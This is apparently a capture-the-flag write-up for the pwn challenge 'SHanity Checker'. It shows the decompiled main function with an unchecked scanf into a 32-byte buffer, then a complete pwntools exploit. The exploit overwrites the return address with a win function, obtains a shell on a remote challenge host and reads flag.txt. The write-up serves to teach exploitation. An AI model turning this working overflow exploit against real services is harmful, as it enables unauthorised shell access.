


# [Pwn] SHanity Checker

## ✨ Walkthrough

**Information about the Binary**


Buffer overflow vulnerability.

```c
undefined8 main(void)

{
  undefined buffer [32];
  
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  printf("Hello, whats your name?\n>> ");
  __isoc99_scanf(&DAT_00402020,buffer);
  return 0;
}
```

The binary has a function that will call the shell. *ret2win chal*.



We can utilise [pwntools](https://github.com/Gallopsled/pwntools) for the exploitation.

```py
from pwn import *
elf = context.binary = ELF("./chal", checksec=False)

# p = process('./chal')
p = remote("IP_ADDR", 5007)

binsh = p64(elf.symbols.FUN_00401174)
payload = b'A'*0x28 + binsh

p.sendlineafter(b'Hello, whats your name?', payload)
p.sendline(b'cat flag.txt')

flag = p.recvall(timeout=1).strip()
print(flag.decode())

p.close()
```

For the payload, we will insert the padding first to fill the buffer and then followed by the `FUN_00401174` address to overwrite the RIP (*instruction pointer*) so that the programme will execute the function, hence giving us the access to the shell.

